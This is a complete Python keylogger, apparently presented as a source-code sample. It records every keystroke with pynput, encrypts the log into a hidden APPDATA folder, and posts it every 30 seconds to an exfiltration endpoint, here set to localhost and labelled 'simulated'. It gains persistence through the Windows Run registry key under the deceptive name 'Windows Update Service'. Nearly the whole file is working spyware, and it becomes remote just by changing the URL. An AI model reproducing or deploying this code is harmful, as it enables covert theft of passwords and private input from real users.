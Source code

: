 import os
import sys
import time
import threading
import base64
from cryptography.fernet import Fernet
from pynput import keyboard
import requests
import json

# === CONFIGURATION ===
LOG_DIR = os.path.join(os.getenv("APPDATA") or ".", ".syslogs")
LOG_FILE = os.path.join(LOG_DIR, "log.enc")
FERNET_KEY_FILE = os.path.join(LOG_DIR, "fernet.key")
EXFIL_URL = "http://localhost:5000/exfiltrate"  # Simulated remote server
KILL_COMBO = {keyboard.Key.ctrl_l, keyboard.Key.alt_l, keyboard.KeyCode(char='k')}
pressed_keys = set()

# === FERNET ENCRYPTION ===
def load_or_create_key():
    if not os.path.exists(FERNET_KEY_FILE):
        key = Fernet.generate_key()
        with open(FERNET_KEY_FILE, "wb") as f:
            f.write(key)
    else:
        with open(FERNET_KEY_FILE, "rb") as f:
            key = f.read()
    return Fernet(key)

fernet = load_or_create_key()

# === LOGGING ===
def encrypt_log(text):
    timestamped = f"{time.ctime()} | {text}"
    encrypted = fernet.encrypt(timestamped.encode())
    return encrypted

def save_log(data):
    os.makedirs(LOG_DIR, exist_ok=True)
    with open(LOG_FILE, "ab") as f:
        f.write(data + b"\n")

# === KEYLOGGER ===
def on_press(key):
    try:
        if hasattr(key, 'char') and key.char:
            log = encrypt_log(key.char)
        else:
            log = encrypt_log(str(key))
        save_log(log)

        # Detect kill switch
        if key in KILL_COMBO:
            pressed_keys.add(key)
            if pressed_keys == KILL_COMBO:
                print("[!] Kill combo detected. Exiting...")
                return False
    except Exception as e:
        print(f"Error: {e}")

def on_release(key):
    if key in pressed_keys:
        pressed_keys.remove(key)

# === SIMULATED EXFILTRATION ===
def exfiltrate():
    while True:
        if os.path.exists(LOG_FILE):
            with open(LOG_FILE, "rb") as f:
                content = f.read()
            try:
                # Simulate POST to a local server
                requests.post(EXFIL_URL, data={"data": base64.b64encode(content).decode()})
                print("[+] Data exfiltrated to localhost.")
            except:
                print("[!] Exfil failed. Server offline?")
        time.sleep(30)

# === STARTUP PERSISTENCE (Windows only) ===
def add_to_startup():
    if os.name != 'nt':
        return
    import winreg
    exe = sys.executable if sys.executable.endswith(".exe") else sys.argv[0]
    key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_SET_VALUE)
    winreg.SetValueEx(key, "Windows Update Service", 0, winreg.REG_SZ, exe)
    winreg.CloseKey(key)

# === MAIN ===
def main():
    print("[*] Keylogger started.")
    add_to_startup()

    # Start exfiltration thread
    threading.Thread(target=exfiltrate, daemon=True).start()

    # Start keylogger
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()

if __name__ == "__main__":
    main()
